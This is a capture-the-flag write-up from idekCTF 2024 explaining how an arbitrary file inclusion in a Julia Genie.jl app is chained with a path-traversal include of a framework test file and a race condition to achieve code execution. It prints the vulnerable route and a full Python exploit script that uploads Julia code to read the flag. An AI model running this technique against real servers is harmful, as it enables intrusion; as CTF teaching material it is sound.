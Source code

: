 ```yaml
---
id: 476adce3-c249-4a2d-ad88-ea823a5c99a1
title: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
created_time: 2024-08-19T00:24:00.000Z
last_edited_time: 2024-09-28T00:27:00.000Z
cover_image: ./imgs/images_CYPDSAFZ
icon_emoji: 🏎️
categories: []
verification:
  state: unverified
  verified_by: null
  date: null
page: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/images_CYPDSAFZ

---
```


In idekCTF 2024, I played with the **P1G SEKAI** team and secured 1st place out of 1,068 teams! I solved a challenge named "Included me" and got the first blood on that challenge.

# Challenge Description

another minimalist, frontend-less, challenge because i'm bad at writing server-side challenges

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/709a0b78-7ae2-4171-930b-e98c753c8621/includeme.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466X3TWQQ25%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T092806Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDIaCXVzLXdlc3QtMiJHMEUCIQDwAJdrexDs1wSmzAsclkVkGhwRBcFQa6N0z4RHebWRBAIgfwL4XHwu%2FWrMLpDZoiWs%2BHvhiCr2i%2FrFVgEI1wx9%2FcoqiAQI6v%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDM7VW9cGXkfBrP5C4SrcA46k5pVRNlSpYHp2vPGuZHH0m7SrOHaLGuPtKmAvLZybZuzjT%2F6yLHJfBrQQt5MUnAhH3HY%2BYG97dBv1IbP0T3vd1SWm%2B0RwmTr8iKoSSVl34tucQOMf6PvalZwzJrm0ED9lWS1rEL%2FChXFpnoOr9AKAg75p4OF%2Bu8xp0h2vbZh9hmG8wTxehlwJcZHi4MjZYzFWWvNXhhsskw9P9ROvxC2g2bTE4m%2FfzzD0joM2Vm0TTYnI6GvR9OKTf7oj8xWPJ7cBGwRMJMnwZPuLmRf1M2E5ZRYVPgTo1dS2B7K8ZYNvw3fTgVhvlOJAqzm4P1jCrzwvFgwyd97gZYcSwq9Hes4ZOYaSVKDjroZrOYwqss3Z4iXe2xUMAPn1wvVxylqyb%2FQMAHXwDe96GEkbQtbaaW47SjSfDEeZu42X7kis8Q8zWg6yHfJEq9N9WZ14C7jdpH2TFBlmkasVLskcnTEULwZH4eVN5b8CkzHxie2ar5v6dZ89BGrp4dTiHC1xjUKLLg2Sh1QqMFhyOK3kS9IKIBRTGK5V4goiBLm7BvYdhELiv8q0xgerEkuUWui4UJdtnoixlg2RUhYWDvxHcNhw17cMdPFtKaVQkkuseolV1p54iszXLwMsFl3dGAsuMKr7wMEGOqUBKQwyznBioqgv6kIMf12YXbF6oAPrc7Y6tqmFm%2FXmoVO3%2FHDD3%2Fzr207aydeDNnv39XwrMHCNGJXFIrM1aBsiIk8evzn6QOwjAeuSV7cYvJIsmDKg6xexb3yUXxRyiZFI6gGTjANrc3WN3giZLX%2BWY6KmFRq1ENysAwyVwOwvQDzTmyI51AmVTw1RGCXe0vtY3DRTuVNfAJwzu5snB0iy0j7%2Bgsno\&X-Amz-Signature=33632ae21e126ebd40db8365e6f7d601054f9406aa8f17c6dd1aa3c1ce11d40e\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# How to Solve

The goal of this challenge was to achieve Remote Code Execution (RCE) and capture the flag. The program was vulnerable to arbitrary file inclusion here:

```julia
using Genie, Genie.Requests, Pkg

Pkg.activate(".")

index() = include(params(:page, "example.jl"))

route("/", index)

up(1337, "0.0.0.0", async = false)
```

We could include arbitrary files into the application, altering its flow. I discovered that we could include a test case from this Genie.jl repository:

> [![image](./imgs/b322ed80-bc5a-11e9-807a-9b53749c40ef_ftYlQyUC) **Genie.jl/test/fileuploads/test.jl at 509886d61a75d74bcbd45db1f77230abd4cd11a8 · GenieFramework/Genie.jl**](https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14)\
> 🧞The highly productive Julia web framework. Contribute to GenieFramework/Genie.jl development by creating an account on GitHub.\
> <https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14>

This test case essentially exposes a file upload vulnerability, allowing us to upload arbitrary files into Genie. However, after including that file, the program’s flow would change, preventing us from doing it a second time… or would it? The solution is yes, we can include it again if we’re fast enough to include `app.jl` right after uploading the file. This requires a race condition. Here's my solution script:

```python
import httpx
import asyncio

URL = "http://localhost:1337"
# URL = "https://includeme-295e03fffda9795f.instancer.idek.team/"

class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.AsyncClient(base_url=url, timeout=100)
    def page(self, page):
        return self.c.get("/", params={"page": page})
    def upload(self, fileupload):
        return self.c.post("/", files={"fileupload": ("x.jl", fileupload)})
class API(BaseAPI):
    ...

async def main():
    api = API()
    ress = []
    res1 = api.page("../home/ctf/.julia/packages/Genie/yQwwj/test/fileuploads/test.jl")
    ress.append(res1)
    for i in range(10):
        res2 = api.upload("""
read(`cat flag.txt`, String)
""")
        for j in range(10):
            res3 = api.page("app.jl")
            ress.append(res3)
        ress.extend([res1, res2])
    ress = await asyncio.gather(*ress)
    for res in ress:
        print(res.text)


if __name__ == "__main__":
    asyncio.run(main())

```

Next, visit <http://localhost:1337/?page=x.jl> to retrieve the flag.

![](./imgs/image_2FRbeU5K.png)
